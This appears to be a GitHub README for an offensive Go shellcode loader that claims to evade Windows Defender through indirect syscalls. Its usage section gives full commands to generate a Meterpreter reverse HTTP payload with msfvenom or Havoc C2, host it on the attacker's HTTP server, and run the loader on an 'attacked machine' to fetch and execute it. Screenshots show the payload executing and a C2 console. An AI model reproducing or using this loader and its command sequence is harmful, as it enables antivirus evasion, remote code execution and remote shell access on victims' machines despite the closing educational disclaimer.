 # Overview
A simple golang loader that bypass Defender.

It uses [acheron](https://github.com/f1zm0/acheron) to make some indirect syscalls.
> I am currently working on improving this project and enhancing my skills in offensive Go. Any feedback is welcome!

### Usage

Generate the shellcode to execute, I usually use Havoc but it works with anyone:

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=YOUR_IP LPORT=8080 -f raw -o shellcode.bin
base64 -w0 shellcode.bin > shellcode.enc
```
or using Havoc C2:

![Havoc Shellcode Generator](https://i.imgur.com/iaNxbKi.png)
```bash
base64 -w0 shellcode.bin > shellcode.enc
```

There are several ways to create HTTP servers, I will use this one in the directory with the shellcode.enc:
```bash
python3 -m http.server 80
```
From the attacked machine run the following command:
```powershell
.\loader.exe -url http://<YOUR_IP>/shellcode.enc
```
![Shellcode Executed](https://i.imgur.com/XeUIL6C.png)

![msfvenom shellcode executed](https://i.imgur.com/2LMnHgQ.png)

![Havoc console](https://i.imgur.com/Fhn140K.png)


> [!WARNING]
> This project is for educational purposes only. Do not run it on machines you do not own or have explicit permission to test.

